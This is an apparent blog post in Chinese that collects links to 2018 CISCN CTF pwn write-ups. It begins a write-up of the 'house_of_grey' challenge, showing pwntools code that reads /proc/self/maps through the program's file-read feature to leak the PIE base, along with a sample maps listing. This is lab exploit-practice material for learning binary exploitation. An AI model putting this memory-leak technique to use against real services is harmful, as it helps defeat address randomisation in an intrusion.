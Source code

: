 ```yaml
---
layout: post
title: "四月份刷题"
date: 2019-06-29
categories: jekyll update
---
```


### 四月份刷题

2018ciscn：https://github.com/killshadow/CTF_WP/tree/master/2018ciscn/pwn
2018ciscn_wp : https://www.xctf.org.cn/media/infoattach/55ec909c4c2340998be053ad70613f49.pdf

### house_of_grey

参考：http://p4nda.top/2018/05/13/ciscn-ctf-2018/#house-of-grey
关于clone：https://blog.csdn.net/gatieme/article/details/51417488

这个题是可以实现文件的读写，只要给出文件路径即可，所以我们可以通过读/proc/self/maps来绕过pie。

```
p.recvuntil('Y/n')
p.sendline('y')
p.recvuntil('Exit')
p.sendline('1')
p.recvuntil('finding?')

p.sendline('/proc/self/maps')
p.recvuntil('Exit')
p.sendline('3')
p.recvuntil('get?')
p.sendline('10000')
p.recvuntil('something:\n')

pie = int('0x'+p.recvuntil('-')[:-1],16)
print '[+] pie:',hex(pie)
```

打印/proc/self/maps文件信息就可以知道pie了，包括code、heap、stack和libc
下面是/proc/self/maps文件的一个内容例子

```
563fc76f0000-563fc76f2000 r-xp 00000000 08:01 154325                     /home/zoe/Desktop/gongfangshijie/jinjie/house/house
563fc78f2000-563fc78f3000 r--p 00002000 08:01 154325                     /home/zoe/Desktop/gongfangshijie/jinjie/house/house
563fc78f3000-563fc78f4000 rw-p 00003000 08:01 154325                     /home/zoe/Desktop/gongfangshijie/jinjie/house/house
563fc89a3000-563fc89dc000 rw-p 00000000 00:00 0                          [heap]
7f342be6f000-7f343be6f000 rw-p 00000000 00:00 0 
7f343be6f000-7f343c02f000 r-xp 00000000 08:01 399109                     /lib/x86_64-linux-gnu/libc-2.23.so
7f343c02f000-7f343c22f000 ---p 001c0000 08:01 399109                     /lib/x86_64-linux-gnu/libc-2.23.so
7f343c22f000-7f343c233000 r--p 001c0000 08:01 399109                     /lib/x86_64-linux-gnu/libc-2.23.so
7f343c233000-7f343c235000 rw-p 001c4000 08:01 399109                     /lib/x86_64-linux-gnu/libc-2.23.so
7f343c235000-7f343c239000 rw-p 00000000 00:00 0 
7f343c239000-7f343c25f000 r-xp 00000000 08:01 399081                     /lib/x86_64-linux-gnu/ld-2.23.so
7f343c440000-7f343c443000 rw-p 00000000 00:00 0 
7f343c45e000-7f343c45f000 r--p 00025000 08:01 399081                     /lib/x86_64-linux-gnu/ld-2.23.so
```